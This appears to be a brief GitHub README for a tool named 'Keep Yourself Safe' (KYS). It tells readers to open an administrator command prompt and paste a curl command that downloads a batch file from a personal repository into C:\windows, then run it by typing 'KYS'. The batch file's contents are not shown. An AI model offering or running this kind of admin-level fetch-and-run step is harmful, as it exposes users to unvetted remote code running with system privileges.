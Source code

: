 # Keep Yourself Safe

## Images:
<img scr="" weight="" height="">

## How to install
<p> You just need open cmd with admin perms, and paste next command<p/>

```curl -o c:\windows\kys.bat https://raw.githubusercontent.com/blozaza/Smth/main/kys.bat```
<p> !!!Notice that file will be stored in Windows packpage!!! <p/>


## Boot
<p> After installing, you can boot it with command >KYS in cmd <p/>
